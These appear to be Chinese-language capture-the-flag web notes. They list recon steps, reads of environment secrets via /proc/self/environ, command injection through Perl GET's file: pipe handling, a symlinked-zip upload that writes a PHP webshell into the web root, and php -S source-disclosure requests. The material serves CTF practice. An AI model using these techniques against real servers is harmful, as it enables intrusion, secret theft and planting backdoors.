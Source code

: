 拿到题，访问web。
查看源码 仔细查看或者搜索关键词，如flag,include等，提示方向。

F12查看网络请求情况。
最好抓包，仔细查看请求头，响应头信息。

查看传参，回显情况。sql注入，文件包含，模板注入。

目录测试，如flag.php，robots.txt，www.zip
探针/tz.php，/backup.sql，index.phps源码文件
御剑扫描获得phpmyadmin root 密码空 进入
```
D:\mypython\python311\python.exe  dirsearch.py -u "http://16b5eb0b-ac30-452a-808a-0e9214102abd.node3.buuoj.cn/" -s 1 --exclude-status=429,403 -t 1
```

^
早期 asp+access 架构的数据库文件为db.mdb，访问/db/db.mdb下载一个文件。Access或文本打开搜索得到flag。

^
临时文件
>临时文件是在vim编辑文本时就会创建的文件，如果程序正常退出，临时文件自动删除，如果意外退出就会保留，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容。所以通过在url后面加上/index.php.swp即可看到flag。
以index.php来说，第一次退出后，缓存文件名为index.php.swp，第二次退出后，缓存文件名为index.php.swo,第三次退出后文件名为index.php.swn。
场景：发现网页有个错别字？赶紧在生产环境vim改下，不好，死机了

^
一般flag在/flag或/flag.txt中，也可能在env命令环境变量中，还可能在phpinfo()中，php的$GLOBALS数组中, echo $flag中。
/read?file=/proc/self/environ
/read?file=/proc/environ
cat /proc/1/environ
cat /proc/$PID/environ
^
## **爆破参数**
一个网站没有任何传参提示，如python ssti注入点，需要用工具爆破出参数。
工具arjun


**安装**
```
pip3 install arjun
```
或者下载github项目<https://github.com/s0md3v/Arjun>，使用python安装
```
python3 setup.py install
```

**使用**
```
python3 arjun -u http://e3.buuoj.cn/ -c 100 -d 5
arjun  -u http://e3.buuoj.cn/ -c 100 -d 5
```


^
## **linux中程序漏洞**
#### **GET函数漏洞**
>低层的open函数存在命令执行漏洞：如果open文件名中存在管道符（也叫或符号|），就会将文件名直接以命令的形式执行，然后将命令的结果存到与命令同名的文件中(前提先有这个文件)。
```
GET /
查看根目录目录
GET file:|readflag
会执行readflag程序的命令，并返回程序执行结果到readflag文件，没有先创建。

GET file:bash -c /readflag|
会执行readflag程序命令，并返回程序执行结果到readflag|文件，没有先创建。
```


^
#### **unzip命令危害软连接**
已知一个程序是要你上传zip压缩包，然后自动解压到/tmp目录。我们想让他解压到web后门。
```
$finfo = finfo_open(FILEINFO_MIME_TYPE);
if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
    exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
};
```
我们的可以创建一个名文linkto的软链接文件，指定的链接地址为/var/www/html/，并压缩为linkto.zip
```
ln -s /var/www/html linkto 
zip --symlinks linkto.zip linkto
```
同时创建一个名为linkto的目录，目录里放一个php木马，再返回上一级压缩目录为linkto1.zip
```
mkdir linkto
cd ../
zip -r linkto1.zip ./*
```
先上传linkto.zip，再上传linkto1.zip即可再web目录写下木马。








^
## **nuclei扫描**
有时候可能会出现一些cve漏洞作为前提，这时候可以漏扫一下先。


如：PHP<=7.4.21时通过`php -S`开起的WEB[服务器]存在源码泄露漏洞。 
payload：
```
GET /flag.php HTTP/1.1
Host: challenge.wucup.cn:38308


GET /Kawakaze HTTP/1.1
```

